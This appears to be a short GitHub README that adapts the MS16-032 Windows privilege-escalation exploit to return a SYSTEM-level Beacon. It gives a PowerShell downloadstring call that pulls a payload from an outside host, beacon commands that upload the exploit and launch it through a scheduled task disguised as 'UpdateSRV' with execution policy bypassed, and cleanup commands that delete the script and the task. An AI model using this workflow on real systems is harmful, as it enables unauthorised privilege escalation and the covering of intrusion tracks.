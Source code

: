 # Updated Exploit ms16-032 to get a Beacon back

You need a unpriviledged Shell/Beacon on the target. Don't forget to change the exploit for your correct ListenerName 
```
... downloadstring('http://172.16.0.5:80/a')) ...
```
## Get a Beacon with System Priviledges
```
beacon> cd C:\Windows\Temp
beacon> upload /root/tools/files/ms16-032_beacon.ps1
Now create a schtasks to run your exploit:
beacon> shell schtasks /Create /TN UpdateSRV /SC once /ST 10:10 /TR "C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe -exec bypass C:\Windows\Temp\ms16-032_beacon.ps1"
System beacon calls back :)
Delete Beacon:
beacon> shell del C:\Windows\Temp\ms16-032_beacon.ps1
Delete Task:
beacon> shell schtasks /Delete /TN UpdateSRV /F
[*] Tasked beacon to run: schtasks /Delete /TN UpdateSRV /F
SUCCESS: The scheduled task "UpdateSRV" was successfully deleted.
```
